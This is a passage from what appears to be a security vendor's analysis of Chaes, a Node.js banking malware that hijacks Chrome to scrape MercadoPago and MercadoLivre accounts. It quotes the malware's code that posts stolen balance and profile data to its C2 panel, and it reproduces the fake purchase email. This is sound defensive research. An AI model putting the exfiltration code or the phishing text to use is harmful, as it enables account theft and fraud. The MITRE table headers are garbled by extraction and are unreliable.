Eventually, when the data scraped from the website has been collected, the script sends it as a json file and uploads it to the remote C2 server. In the end, the attacker will have information on the victim pulled from their profile, including their cash balance:

#### FIGURE 41

The Node.js malware create the json to send information about new customer

| console.log(await httpPost( ${painel url}/newMercadoPago.php`, | uid: uid.uid, |
| --- | --- |
| data: JSON.stringify({ | saldo: dinheiroText, |
| perfil: perfilText, | atividades: atividadesText |

#### Sending Fake Emails

Once the user makes a transaction, the script will use a function called sendEmail() to automatically send an fake email (allegedly to be on the behalf of Mercado Livre) informing the customer about the purchase that they made. In this fake email, "Mercado Livre" sends the following message:

> "Your order has been successfully billed on our system, Order No.: 112187194961661 generated on 9/22/2020 at 09:33:48 PM Status: APPROVED!

Order amount: R $ 4661.22 payment billed in 4X (Boleto Bancário).

Attached are the accesses containing the data listed above:

Access Key: 3872190867349812064732892309012388561092"

To increase the legitimacy of the message, the customer is also informed that the email has been scanned by Avast and does not contain any virus:

```
FIGURE 42 
                                                The Node.js malware sendEmail function
30
                                                             NF-e: NEW OF
```


The script also determines if there is any money to extract from the customer, If not, it displays a message about it:


Additionally, the script also extracts the cookies and web data from the MercadoPago site, and stores them as constant variables named "cookies" and "web data". This data is also uploaded to the C2 server:


#### Understanding the Endgame

After analyzing the node.js malware and the entire deployment process of Chaes, the researchers realized the full functionality and capabilities of the malware. The malware opens a Chrome browser, monitors it using hooking, and then controls its activity using the Puppeteer capabilities that are stored within the Node.js script. In this way, the malware is able to enter MercadoPago and MercadoLivre payment sections without the user's interaction or consent. It then scrapes the information stored in it and sends it to a remote C2 server.

The alarming part in this node. js-based malware is the fact the majority of this behavior is considered normal, as the usage of the Puppeteer library for web scraping is not malicious by nature. Therefore, detecting these kinds of threats is much more challenging.


#### Evolving Threat

Chaes is a rapidly evolving threat, and in recent months the malware authors appear to have adapted and changed some parts of their framework. Recent versions of Chaes are observed without the usage of InstallUtil and with better network encryption. In addition, the final Node,js script "index,js" appears to also be updated and contains: more functionality that is related to controlling the chrome browser, new updated C2 IP/Domains, new MercadoPago financial webpage, and removing the fake mail section.

Although some versions of Chaes may change in some parts, the endgame goal still remains: under the radar activity accessing MercadoLivre and MercadoPago websites without user's consent and data exfiltration using node process. This can also be seen using the Cybereason Defense Platform:

Co cybereason

#### FIGURE 47

The Cybereason Defense Platform shows Chaes accessing MercadoLivre and MercadoPago websites and data exfiltrated from node.exe process


#### Conclusion

In this research, Cybereason discovered a new and evolving threat in the Latin American cyber crime scene called Chaes. This malware made its first appearance during the middle to end of 2020, It specifically targets Brazil and the largest e-commerce company in Latin America, Mercado Livre. It is a multistage malware deployment which uses several legitimate Windows processes and open source tools to remain undetected. These components are not always malicious on their own, but when put together they form a stealthy infection chain that is hard to detect.

Multistage malware that uses such techniques in the LATAM region and specifically in Brazil have already been observed and investigated by Cybereason in the past years.

Chaes demonstrates how sophisticated and creative malware authors in the Latin America region can be when attempting to reach their goals. The malware not only serves as a warning sign to information security researchers and IT professionals not to take lightly the existence of files that are legitimate in nature, but also raises the concern of a possible future trend in using the Puppeteer library for further attacks in other major financial institutions.

Cybereason will continue to monitor Chaes' progress to determine whether it will expand to more e-commerce companies in the Latin Americas, and whether the popularity of Node,js-based malware will continue to evolve.

## MITRE ATT&CK Breakdown

| ורובות | ECUTIO | RSISTE | IVELEGI SCALATIC | EEENO | REDENTIA ACCESS | SCOVEI | LLECTI | ILTRATI | C&C |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Spearphish- ing | Command- Line | Modify Registry | Registry_ Run Keys | InstallUtil | Credentials in Files | Account Discovery | Data from_ Information_ | Automated Exfiltration | Data Obfuscation |
| Link | Interface |  | / Startup Folder |  |  |  | Repositories |  |  |
| Spearphish- | Scripting |  | Valid | Modify | Credentials | File and | Data from | Data | Mail |
| ing Attach- |  |  | Accounts | Registry | from Web | Directory | Local System | Compressed | Protocols |
| ment |  |  |  |  | Browsers | Discovery |  |  |  |
|  | JavaScript/ JScript |  |  | Scripting |  | System Information_ | Data Staged | Data Encrypted |  |
|  |  |  |  |  |  | Discovery |  |  |  |
|  | Python |  |  | DLL Search |  | System | Email | Exfiltration_ |  |
|  |  |  |  | Order |  | Network | Collection | Over |  |
|  |  |  |  | Hijacking |  | Configuration_ |  | Command_ |  |
|  |  |  |  |  |  | Discovery |  | and Control Channel |  |
|  | Visual Basic |  |  | Msiexec |  |  |  |  |  |

#### Indicators of Compromise (IOCs)

The full set of IOCs including C2 Domains, IP addresses, Docx files SHA-1 hashes, Docx files SHA-256 hashes,Msi files SHA-1 hashes, Msi files SHA-256 hashes, Binary files SHA-1 hashes, Binary files SHA-256 hashes, Archived files SHA-1 hashes, Archived files SHA256 hashes, Ini files SHA-1 hashes, Ini files SHA-256 hashes, Scripts SHA-1 hashes, Scripts SHA256 hashes, DLLs SHA-1 hashes, DLLs SHA256 hashes are AVAILABLE FOR DOWNLOAD HERE,


